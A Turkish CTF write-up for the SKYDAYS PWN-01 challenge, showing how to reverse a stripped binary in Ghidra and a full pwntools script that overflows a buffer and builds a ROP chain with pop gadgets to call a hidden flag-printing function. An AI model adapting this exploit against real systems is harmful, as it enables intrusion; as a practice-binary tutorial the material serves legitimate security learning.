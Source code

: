 # SKYDAYS CTF PWN-01

# Giriş

 Bu yazı YTÜ SKYLAB kulübünün düzenlediği SKYDAYS etkinliğindeki CTF yarışmasındaki sorunun çözümünü anlatmaktadır. Sorunun tek çözümü bu değildir, başka çözümler olabilmektedir.

# Soru

 Bize “chal” isimli bir dosya verilmiş, bu dosyayı açtığımızda karşımıza şöyle bir ekran çıkmakta:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled.png)

 Program bizden bir girdi alıyor ve aldığı girdiği ekrana yazdırıyor. Bu durumda bizden sorunun içerdiği bayrağı bulmamız isteniyor.

# Çözüm

 Bize verilen dosyanın özelliklerine bakalım:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%201.png)

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%202.png)

 Dosyanın 64-bit mimaride, ‘little endian’ biçimde, dinamik olarak bağlanmış ve ‘stripped’ olduğunu; koruma olarak ise ‘NX’ ve ‘Partial RELRO’ içerdiğini görüyoruz.

 Dosyamızda bayrağın nerede olduğunu öğrenmek için dosyayı ‘ghidra’ ile inceleyelim:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%203.png)

 Dosyamız ‘stripped’ olduğundan fonksiyonların isimlerine ulaşamıyoruz. Bundan dolayı programın ne yaptığını anlamak için “entry” fonksiyonundan başlayarak inceleyelim:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%204.png)

 “entry” fonksiyonu bizi ‘FUN_0040128e’ fonksiyonuna yani “main” fonksiyonuna gönderiyor. “main” fonksiyonuna bakalım:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%205.png)

 “main” fonksiyonu ise benzer bir şekilde ‘FUN_00401231’ fonksiyonunu çağırıyor. ‘FUN_00401231’ fonksiyonuna bakalım:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%206.png)

 Programı çalıştırdığımızda karşımıza çıkan ekranın kodunu görüyoruz. Bu kod başka bir fonksiyonu çağırmıyor fakat bayrağı bize verecek fonksiyonu bulmamız gerek. Bunun için diğer fonksiyonlara bakalım:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%207.png)

 Karşımıza böyle ilginç bir fonksiyon çıkıyor. Bu fonksiyon üç adet parametre alıyor ve bu parametreler sırasıyla ‘0xdeadbeef’, ‘0xc0debabe’ ve ‘0xcacadada’ değerlerine eşit olursa ‘flag.txt’ dosyasının içeriğini ekrana yazdırıyor. Eğer parametreler bu değerlere eşit değilse ekrana “Nope, that’s not how you’re supposed to solve this challenge :D” yazdırıyor.

 ‘flag.txt’ dosyası tam da bizim erişmek istediğimiz dosya. Bunun için bir şekilde bu fonksiyona erişip parametrelere doğru değerleri yazmamız gerekiyor. Bunu yapmak için de ‘FUN_00401231’ fonksiyonundaki ‘buffer’ı kullanabiliriz yani bir ‘buffer overflow’ atağı yapabiliriz.

 Öncelikle programımızı ‘debugger’ yardımıyla çalıştırıp ‘rip register’ının ‘offset’ini bulmamız gerek. Bunu şu şekilde yapabiliriz:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%208.png)

 Burada ‘rsp register’ına dolan en soldaki değerlerden sonraki değerler ‘rip register’ına ulaşacak değerlerdir. Bundan dolayı ‘offset’imizi öğrenmek için ‘daaaaaaa’ değerinin ‘pattern’imizde kaçıncı sırada geldiğini bulmamız gerekir:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%209.png)

 Böylelikle ‘offset’imizin 24 olduğunu bulmuş olduk, bu ileride işimize yarayacak.

 Bayrağı yazdıracak fonksiyona dönmek için bu fonksiyonun adresine ihtiyacımız var. Sadece dönmemiz de yetmeyecek, parametreleri de uygun değerlerle eşleştirmemiz gerekiyor. Bunun için önce parametreleri oluşturmalı daha sonra fonksiyonu çağırmalıyız. Parametrelerin hangi ‘register’lar ile kontrol edildiğini öğrenmek için ‘ghidra’da açtığımız fonksiyonun ‘assembly’ kısmına bakalım:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%2010.png)

 Fonksiyonun adresini ‘0x401176’ olarak bulmuş olduk. Parametreleri program sırasıyla ‘rdi’, ‘rsi’, ‘rdx’ ‘register’larındaki değerlerle karşılaştırıyor yani bu ‘register’lara uygun değerleri yazmamız gerekecek. Bunu yapmak için ise ‘pop’ ‘gadget’ına ihtiyacımız var. ‘Ropper’ aletini kullanarak bu ‘gadget’lara ulaşabiliriz:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%2011.png)

 Bize gereken ‘gadget’ları bulmuş olduk. Bunları not edelim. İhtiyacımız olan bilgileri elde ettiğimize göre artık ‘script’imizi yazabiliriz:

```python
from pwn import *

#terminalde script'i GDB,REMOTE,LOCAL modlarında çalıştırmak için:
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

#binary dosyasının mimarisini ayarlamak için:
exe = './chal' #dosya adı
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug' #olan biteni anlamak için

#####################################
# exploit'i buradan sonra yazacağız #
#####################################

#BOF için gdb'den öğrendiğimiz offsetimizi buraya yazıyoruz:
offset = 24

#ropper'dan öğrendiğimiz gadget adreslerini buraya yazıyoruz:
pop_rdi = 0x401289
pop_rdx = 0x401287
pop_rsi = 0x401285

#programı başlatıyoruz:
io = start()

#payload'ı oluşturuyoruz:
payload = flat({
    offset: [
        pop_rdi,  # Pop the next value to RDI
        0xdeadbeefdeadbeef,
        pop_rsi,  # Pop the next value to RSI (and junk into R15)
        0xc0debabec0debabe,
        pop_rdx,
        0xcacadadacacadada,
        # With params in correct registers, call hacked function
        0x401176
    ]
})

#payload'ımızı yolluyoruz:
io.sendlineafter(b'name:', payload)

#flag'i okuyabilmek için interaktif moda geçiyoruz:
io.interactive()
```

 ‘script’imizi çalıştırdığımızda bayrağımızı elde ediyoruz:

![Untitled](SKYDAYS%20CTF%20PWN-01%2074b99a0800c0420ba88c7719d3edc728/Untitled%2012.png)

---

written by: KOTAMAN